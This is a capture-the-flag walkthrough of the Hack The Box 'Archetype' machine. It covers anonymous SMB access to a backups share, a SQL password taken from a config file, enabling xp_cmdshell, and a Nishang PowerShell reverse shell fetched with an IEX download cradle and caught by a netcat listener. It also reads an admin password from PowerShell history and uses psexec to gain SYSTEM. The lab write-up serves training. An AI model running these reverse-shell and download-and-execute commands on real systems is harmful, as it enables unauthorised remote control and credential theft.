 ## Recon

```
nmap <target ip address>
```

![](./IMG/0.png)

>  smb service , connect with smbclient 

```
smbclient -N -L \\\\<target ip address>\\
```

![](./IMG/1.png)

> Find **backups** directory 

```
smbclient -N \\\\<target ip address>\\backups
```

> then check the **backups** directory with```dir``` and get the file in **backups** 

``` 
get prod.dtsConfig
```

> It will store file in the current directory 

![](./IMG/2.png)

![](./IMG/3.png)

> Read this file , and we can get the sql password for ARCHETYPE\sql_svc

![](./IMG/4.png)

![](./IMG/5.png)

## Low Permission exploit

> In here, we need to use this login account to loing to SQL Server 
> Tools : [Impacket - mssqlclient](https://github.com/SecureAuthCorp/impacket)
> Impacket 下有一個 ```mssqlclient.py``` 的工具可以用來建構與MS SQL Server 連線溝通的通道

![](./IMG/6.png)

 > enable_xp_cmdshell

```
EXEC sp_configure 'Show Advanced Options', 1;
reconfigure;
sp_configure;
EXEC sp_configure 'xp_cmdshell', 1
reconfigure;
xp_cmdshell "whoami"
```
> with xp_cmdshell , We can execute some command , but we also know that the permission is not administrator 
>  but we still can try to write a reverse shell then upload and execute on victim server by xp_cmdshell

---

>  Reverse shell payload 
>   uncomment the necessary part 
>    set the attack ip address and the port(nc listen port)

```
wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcpOneLine.ps1
```

```
#A simple and small reverse shell. Options and help removed to save space. 
#Uncomment and change the hardcoded IP address and port number in the below line. Remove all help comments as well.

$client = New-Object System.Net.Sockets.TCPClient('ip_address',<nc listen port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

$sm=(New-Object Net.Sockets.TCPClient('ip_address',<nc listen port>)).GetStream();[byte[]]$bt=0..65535|%{0};while(($i=$sm.Read($bt,0,$bt.Length)) -ne 0){;$d=(New-Object Text.ASCIIEncoding).GetString($bt,0,$i);$st=([text.encoding]::ASCII).GetBytes((iex $d 2>&1));$sm.Write($st,0,$st.Length)}

```

![](./IMG/7.png)


> Create the python simpleHTTPServer

```
python3 -m http.server 80
```

![](./IMG/8.png)

> Using nc to listen a port for accepting the reverse shell 

```
nc -lvnp 443
```

![](./IMG/9.png)

> Using xp_cmdshell to Dowload the reverse shell from the remote server(python simplehttpserver)
> Execute it by xp_cmdshell

```
xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://<ip_address>/Invoke-PowerShellTcpOneLine.ps1\");""
```

![](./IMG/10.png)

> Check nc part , it will get the Powershell 

![](./IMG/11.png)

> Get flag in the ```C:\\Users\sql_svn\Desktop\```
> Use type to read file(```user.txt```)

![](./IMG/12.png)

##  Privilege Escalation

> Tools :　[Impacket - psexec](https://github.com/SecureAuthCorp/impacket)
> Get the administrator account / password

```
type C:\\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

![](./IMG/13.png)

> admin / MEGACORP_4dm1n!!

```
python3 psexec.py administrator@<victim ip address>
```

![](./IMG/14.png)

> Get flag 

![](./IMG/15.png)

## Reference 

- [Hack the Box - Starting Point: Archetype](https://www.linkedin.com/pulse/hack-box-starting-point-archetype-nathan-barnes/)
- [Running curl via powershell ](https://stackoverflow.com/questions/30807318/running-curl-via-powershell-how-to-construct-arguments)
- [How to Resolve the “cannot connect to the Docker daemon” Error](https://phoenixnap.com/kb/cannot-connect-to-the-docker-daemon-error)
- [Example applications Symbolic names and the Domain Name System (DNS)](https://slideplayer.com/slide/7020976/)
- [Starting Point — Archetype](https://artilleryred.medium.com/starting-point-archetype-de3378acc615)

###### tags: `HackTheBox` `Windows`